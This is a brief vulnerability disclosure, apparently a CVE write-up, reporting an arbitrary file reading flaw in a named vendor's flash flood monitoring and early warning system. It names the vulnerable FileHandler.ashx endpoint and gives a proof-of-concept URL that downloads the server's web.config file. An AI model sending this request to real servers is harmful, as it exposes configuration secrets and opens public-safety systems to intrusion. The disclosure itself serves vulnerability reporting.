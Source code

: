   Flash flood disaster monitoring and early warning system 2.0 has arbitrary file reading vulnerability

  official website:http://www.cdwanjiang.com/

  Vulnerability location:\Service\FileHandler.ashx

  ![WPS图片(1)](https://github.com/nagenanhai/cve/assets/42707759/754b2a69-5c01-4de5-beed-d0e2d3bb68c3)

Tracking class:

\bin\MFCW.Web.dll
// MFCW.Web.Service.FileHandler

![WPS图片(2)](https://github.com/nagenanhai/cve/assets/42707759/0f75aabd-ed27-4183-b236-17565c62f56e)

POC
```
http://xx.xx.xx.xx/Service/FileHandler.ashx?Action=Download&FileDirectory=E:/SCWJ/Official/Web/MFCW/&FileName=web.config&FileSourceName=web
```
![WPS图片(3)](https://github.com/nagenanhai/cve/assets/42707759/1a8360a8-69c4-4555-81eb-30e6d6c21f56)
